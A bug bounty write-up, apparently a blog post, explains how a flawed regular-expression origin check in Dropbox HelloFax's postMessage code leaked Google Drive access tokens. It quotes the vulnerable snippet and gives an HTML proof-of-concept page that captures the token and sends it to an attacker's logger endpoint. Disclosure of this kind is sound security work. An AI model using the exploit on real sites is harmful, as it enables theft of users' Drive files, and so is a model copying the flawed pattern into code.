 ```yaml
---
layout: post
title: (Dropbox bug bounty) Watch your regular expressions: Exploiting PostMessage bugs to leak GDrive tokens !
---
```


## TL;DR
In this blog post we will be discussing how minor validation issues in your regular expression patterns could lead to major security issues, the Dropbox's origin validation in the PostMessage function was misconfigured leading to GDrive tokens leak to third party origins !

## Introduction:
Dropbox's HelloFax offers documents management services to its users, particularly faxes:

![manage-documents](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/efba38f8-e7de-4ce6-a9a1-1832e34539c5)


Upon clicking on Send Fax to select your documents to be faxed, the following page will be shown:

![Fax-Documents](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/dce12a57-af39-4eb2-9f9a-b369ebcee2bd)


Documents could be uploaded either from our device or by integrating a third party service such as **Google Drive**, Upon clicking on the google drive icon, an OAuth window will pop up:

![google-drive-oauth](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/21804b65-d6d2-40cd-94f1-53a56618bdde)

- **NOTE:** whenever you see a window popup especially in OAuth integrations keep in mind that there is a possibility of using PostMessage functions, thus bringing other security issues to the table ! it isn't the case every time but keep it in mind when testing such applications !

After granting access in behalf of the user, Google will authorize the OAuth request and send the **authorization code** using the following GET request:

```
GET /home/googleNewFile?state=<state>&code=<authorization_code>&scope=email+profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fdrive.readonly+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=1&prompt=none HTTP/1.1
Host: app.hellofax.com
Cookie: <COOKIES>
```

The application hosted on `app.hellofax.com` will take the `authorization code` and exchanges it with access token, in our case it's a **Gdrive Access Token** in order to access user's **Google Drive** documents and files with the permissions predefined in the `scope` parameter, the whole process is explained in the following chart:

![authorization-code](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/9023ebaa-48ed-4c90-81f5-56e94195bda2)

After exchanging the **code** with a **GDrive access token**; The following response will be sent:

```
<script type="text/javascript" nonce="Bg2IcOtuFadT8UofntcBuA6M">
    let gdriveAccessToken = "<gdrive_access_token>";
    let gdriveReadonlyOAuthSucceed = "true";

    var resultObj = {
        gdriveAccessToken: gdriveAccessToken,
        gdriveReadonlyOAuthSucceed: gdriveReadonlyOAuthSucceed,
        type: "gdrive:readonlyOAuthSucceed", // needed to pass a message to the parent window
    };

    if (window.opener) {
        /**
         * Ensures we're only sending GDrive tokens to other hellosign domains (dev, qa, staging, prod)
         */
        let targetOrigin = window.opener.location.href.match(/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/)[0];

        window.opener.postMessage(resultObj, targetOrigin);
    }
</script>
```

The **GDrive access token** is assigned to a varibale with the name `gdriveAccessToken` which is also included within an object with the name `resultObj`, the application checks if there is an opener window, the comment `//Ensures we're only sending GDrive tokens to other hellosign domains (dev, qa, staging, prod)` shows that the validation on the origin will assure that the **GDrive access token** will be sent only to permitted origins (hellosign trusted domains) and **NOT** to third party origins (untrusted), to apply the validation functionality; the application used to match the opener window's origin with the following regular expression pattern:

```
 let targetOrigin = window.opener.location.href.match(/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/)[0];
```

It checks that the opener window's origin matches the following pattern:

```
/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/
```

Can you catch the error above ? Could you found it ? Great !

The developer tried to match the second-level domain with the domain names [hellosign-dev-qa-staging-] but he employed the wrong operator ! the character class `[]` will accept every character included there: `h, e, l, o, s, i, g, n, |, d, e, v, -, etc..` which offers to the attacker a flexibility in selecting the origin that will get the **Gdrive access token**, the pattern would accept `https://app.dev, https://app.hellosign, https://app.qa, https://app.staging` as trusted origins.

Therefore a PostMessage function will be invoked to send the `resultObj` that contains the **Gdrive token** to the opener window's origin validated by an insecure regular expression pattern, it could be  `app.dev` for example !

```
window.opener.postMessage(resultObj, targetOrigin);
```

## Time to Exploit: Bringing your brightest photos in Google Drive to the table !

To exploit this issue, the attacker must get a valid **authorization code** and a domain name with the origin https://app.dev for example that hosts the following exploit code:

```
<!DOCTYPE html>
<html>
<head>
    <title>PostMessage PoC</title>
</head>
<body>

    <script>

        window.open("https://app.hellofax.com/home/googleNewFile?state=<VALID_STATE>&code=<VALID_AUTHORIZATION_CODE>&scope=email+profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fdrive.readonly+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=1&prompt=none");

        window.addEventListener('message', (event) => {

            window.location.href = '/logger.php?gdrive_access_token=' + event.data.gdriveAccessToken; 

        })


    </script>

</body>
</html>
```

- **Impact:** Getting the **Gdrive access token** will give the attacker a scoped access to your Google Drive files including your holiday photos, your documents, and of course some information per the `email+userinfo.profile information` scope !

### Key Points:
- **For bug hunters/security professionals:** OAuth testing is one of my favorite parts in web security, whenever your find your screen filled with window popups that's a good indicator that you might face a PostMessage configuration, tokens/secrets/codes transmitted between windows need a secure way to travel, developers think that PostMessage is the right plane ! Stay tuned !
- **For developers:** I love regular expressions, a real art that everyone should respect, but I still support the classic method, an array with permitted origins and a strict string comparison will be enough to deliver the needed functionality.
- **For Internet users:** Google does a great job to secure your files/documents, but attackers have their weapons too ! that small click on your screen will be enough to pave attackers's way to your infos, make sure that you give your click to the right application !

Thanks for reading, if you have any question regarding this blog post please feel free to ping me on twitter `@mdakh404_`.
